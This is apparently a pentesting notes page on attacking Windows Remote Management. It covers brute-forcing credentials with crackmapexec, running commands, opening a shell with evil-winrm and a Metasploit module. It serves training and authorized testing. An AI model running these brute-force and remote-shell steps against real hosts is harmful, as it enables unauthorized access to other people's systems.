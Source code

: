 # Exploiting WinRM

* Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).&#x20;
* Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.&#x20;
* WinRM is typically used in the following ways:&#x20;
  * Remotely access and interact with Windows hosts on a local network.&#x20;
  * Remotely access and execute commands on Windows systems.&#x20;
  * Manage and configure Windows systems remotely.&#x20;
* WinRM typically uses TCP port 5985 and 5986 (HTTPS).
* We can utilize a utility called “crackmapexec” to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.&#x20;
* We can also utilize a ruby script called “evil-winrm” to obtain a command shell session on the target system.

## Practical Demo

Enumerate the target

For WinRM you have to specify the ports,since they are not in the 1000  most common ports. 5985/5986

### Bruteforce with CrackMapExec

* <mark style="color:yellow;">crackmapexec winrm targetIP -u administrator -p pathtolist</mark>

After getting credentials to login and execute specific command run:

* <mark style="color:yellow;">crackmapexec winrm targetIP -u administrator -p tinkerbell -x commandtorun</mark>

### Obtain a command shell with Evil-Winrm

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

* <mark style="color:yellow;">evil-winrm.rb -u administrator -p tinkerbell -i targetIP</mark>

### Metasploit Module

<mark style="color:red;">exploit/windows/winrm/winrm\_script\_exec</mark>

Set RHOSTS

Set USERNAME and PASSWORD

set FORCE\_VBS true













